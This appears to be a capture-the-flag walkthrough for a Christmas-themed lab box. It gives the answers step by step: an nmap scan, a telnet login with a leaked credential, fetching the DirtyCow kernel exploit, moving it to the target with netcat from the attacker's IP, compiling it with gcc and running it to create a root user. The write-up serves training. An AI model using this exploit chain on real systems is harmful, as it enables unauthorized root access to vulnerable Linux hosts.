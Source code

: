 # Coal for Christmas

- Hi Santa, hop in your sleigh and deploy this machine!

	  no answer needed

- nmap <TARGET_IP>

	  no answer needed

	- `nmap <TARGET_IP>`

- What old, deprecated protocol and service is running?

	- `telnet`

- What credential was left for you?

	- `telnet <TARGET_IP> 23`
	- `clauschristmas`

- What distribution of Linux and version number is this server running?

	- `uname -a`
	- `Ubuntu 12.04`

- Who got here first?

	- `cat cookies_and_milk.txt`
	- `grinch`

- This cookies_and_milk.txt file looks like a modified rendition of a DirtyCow exploit, usually written in C. Find a copy of that original file online, and get it on the target box. You can do this with some simple file transfer methods like netcat, or spinning up a quick Python HTTP server... or you can simply copy-and-paste it into a text editor on the box!

	  no answer needed

	- [dirtycow](https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c)
	- On your machine `nc -lnvp 4444 < dirty.c`
	- On target `nc -w 3 <YOUR_IP> 4444 > dirty.c`
	
- What is the verbatim syntax you can use to compile, taken from the real C source code comments?

	- `gcc -pthread dirty.c -o dirty -lcrypt`

- Run the commands to compile the exploit, and run it.
What "new" username was created, with the default operations of the real C source code?
	- `./dirty` and then enter the password you've chosen
	- `firefart`

- What is the MD5 hash output?

	- `cat message_from_the_grinch.txt`
	- `touch coal`
	- `tree | md5sum`
	- `********************************`
